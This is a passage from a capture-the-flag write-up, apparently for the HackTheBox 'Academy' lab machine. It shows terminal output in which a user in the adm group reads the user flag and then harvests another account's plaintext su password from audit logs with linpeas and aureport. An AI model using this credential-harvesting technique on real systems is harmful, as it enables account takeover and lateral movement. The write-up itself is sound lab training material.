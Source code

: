 ```
cry0l1t3@academy:~$ id

uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)

cry0l1t3@academy:~$ cat /home/cry0l1t3/user.txt 

c91ea*************************** 🚩
```

```
cry0l1t3@academy:~$ groups

cry0l1t3 adm
```

**Credentials Harvesting**

```
cry0l1t3@academy:~$ cat linpeas.output

[SNIP]

╔══════════╣ Checking for TTY (sudo/su) passwords in audit logs
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>

[SNIP]
```

```
cry0l1t3@academy:~$ aureport --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
3. 08/12/2020 02:28:24 89 0 ? 1 sh "whoami",<nl>
4. 08/12/2020 02:28:28 90 0 ? 1 sh "exit",<nl>

[SNIP]
```

```yaml
credentials:
    username: mrb3n
    password: "mrb3n_Ac@d3my!"
    protocol: ssh
    host: academy.htb
    port: 22
```
